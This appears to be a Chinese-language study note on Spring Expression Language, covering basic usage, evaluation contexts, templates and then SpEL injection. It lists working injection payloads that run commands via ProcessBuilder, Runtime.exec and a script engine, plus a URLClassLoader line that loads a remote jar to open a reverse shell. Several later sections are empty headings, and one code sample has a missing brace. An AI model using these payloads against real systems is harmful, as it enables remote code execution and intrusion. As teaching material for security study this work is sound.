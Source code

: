 ### SpEL表达式的基本使用

#### 简介

* Spring表达式语言（简称 **SpEL**，全称**Spring Expression Language**）是一种功能强大的表达式语言，支持在运行时查询和操作对象图。
* SpEL是Spring产品组合中表达评估的基础，但它并不直接与Spring绑定,可以独立使用。

#### Spel实现RCE

**基本使用：**

```java
ExpressionParser parser = new SpelExpressionParser();//创建解析器
Expression exp = parser.parseExpression("'Hello World'.concat('!')");//解析表达式
System.out.println( exp.getValue() );//取值，Hello World！
```



**自定义注册加载变量：**

```java
public class Spel {
    public String name = "何止";
    public static void main(String[] args) {
        Spel user = new Spel();
        StandardEvaluationContext context=new StandardEvaluationContext();
        context.setVariable("user",user);//通过StandardEvaluationContext注册自定义变量
        SpelExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression expression = parser.parseExpression("#user.name");//解析表达式
        System.out.println( expression.getValue(context).toString() );//取值,输出何止
    }
}
```



**调用命令执行方法：**

```java
String cmdStr = "new java.lang.ProcessBuilder(\"calc\").start()"; // java.lang下的类可以省略包名 
ExpressionParser parser = new SpelExpressionParser();//创建解析器
Expression exp = parser.parseExpression(cmdStr);//解析表达式
System.out.println( exp.getValue() );//弹出计算器
```

```java
//  SpEL、OGNL、MVEL等表达式均设计为在访问静态类时，使用T()显示表明这是一个静态类
String cmdStr = "T(java.lang.Runtime).getRuntime().exec(\"open /System/Applications/Calculator.app\")";
```

```java
String cmdStr = "new javax.script.ScriptEngineManager().getEngineByName(\"javascript\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";  // 利用JavaScript引擎，这里JavaScript可替换为nashorn
```

**通过类加载器加载class实现RCE：**

```java
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:8999/Exp.jar")}).loadClass("Exp").getConstructors()[0].newInstance("127.0.0.1:2333") //反弹shell
```

```java
"T(ClassLoader).getSystemClassLoader().loadClass(\"java.lang.Runtime\").getRuntime().exec(\"calc\")";
"T(ClassLoader).getSystemClassLoader().loadClass(\"java.lang.ProcessBuilder\").getConstructors()[1].newInstance(new String[]{\"calc\"}).start()";
// 这里得先获取AppClassLoader，可以通过其他类获取T(org.springframework.expression.Expression).getClass().getClassLoader()
```

#### 上下文环境

从前面自定义注册加载变量的代码中可以看出，SpEL表达式是由一个上下文环境的概念的，可以在上下文环境中注册变量、对象和方法，例子如下

* 这里有点像ONGL表达式

```java
ExpressionParser parser = new SpelExpressionParser();
EvaluationContext context = new StandardEvaluationContext("rui0");
context.setVariable("variable", "ruilin");
String result1 = parser.parseExpression("#variable").getValue(context, String.class);
System.out.println(result1);
 
String result2 = parser.parseExpression("#root").getValue(context, String.class);
System.out.println(result2);
String result3 = parser.parseExpression("#this").getValue(context, String.class);
System.out.println(result3);
```

```java
public class A {
    String name;
 
    public String getName() {
        return name;
    }
 
    public void setName(String name) {
        this.name = name;
    }
 
    public A(String name) {
        this.name = name;
    }
}
```

```java
A a=new A("ruilin");
ExpressionParser parser = new SpelExpressionParser();
Expression exp = parser.parseExpression("name");
EvaluationContext context = new StandardEvaluationContext(a);
String name = (String) exp.getValue(context);
System.out.println(name);
exp.setValue(context,"ruilin setValue");
name = (String) exp.getValue(context);
System.out.println(name);
System.out.println(a.getName())
```

```java

public abstract class StringUtils {
 
  public static String reverseString(String input) {
    StringBuilder backwards = new StringBuilder();
    for (int i = 0; i < input.length(); i++) 
      backwards.append(input.charAt(input.length() - 1 - i));
    }
    return backwards.toString();
  }
}
```

```java
ExpressionParser parser = new SpelExpressionParser();
StandardEvaluationContext context = new StandardEvaluationContext();
context.registerFunction("reverseString", 
                         StringUtils.class.getDeclaredMethod("reverseString", 
                                                             new Class[] { String.class }));
String helloWorldReversed = 
          parser.parseExpression("#reverseString('hello')").getValue(context, String.class)
```

##### SimpleEvaluationContext和StandardEvaluationContext

* SimpleEvaluationContext可以防御表达式注入

#### 模板表达式

```java
public class TemplateParserContext implements ParserContext {

  public String getExpressionPrefix() {
    return "#{";
  }

  public String getExpressionSuffix() {
    return "}";
  }

  public boolean isTemplate() {
    return true;
  }
}
```

```java
String randomPhrase =
   parser.parseExpression("random number is #{T(java.lang.Math).random()}",
                          new TemplateParserContext()).getValue(String.class);
```

#### 在Spring中的使用

* 基于注解的使用

```java
public class EmailSender {
    @Value("${spring.mail.username}")
    private String mailUsername;
    @Value("#{ systemProperties['user.region'] }")    
    private String defaultLocale;
    //...
}
```

* 配置文件

```xml
<bean id="numberGuess" class="org.spring.samples.NumberGuess">
    <property name="randomNumber" value="#{ T(java.lang.Math).random() * 100.0 }"/>
    <!-- other properties -->
</bean>
```

| 特性     | $                      | #                            |
| -------- | ---------------------- | ---------------------------- |
| 作用     | 属性占位符，解析配置值 | SpEL 表达式，动态计算值      |
| 解析时机 | 应用上下文加载时       | 方法调用或运行时             |
| 典型场景 | 配置文件值注入         | 表达式校验、条件判断等       |
| 访问范围 | 配置文件中的键值对     | Bean、方法参数、上下文变量等 |

### SpEL表达式的漏洞触发

#### 可控属性

#### 双重SpEL表达式

```xml
<nxu:set var="directoryNameForPopup"
    value="#{request.getParameter('directoryNameForPopup')}"
    cache="true">
```

### SpEL表达式的常见利用语句

### SpEL相关漏洞分析

### SpEL表达式注入审计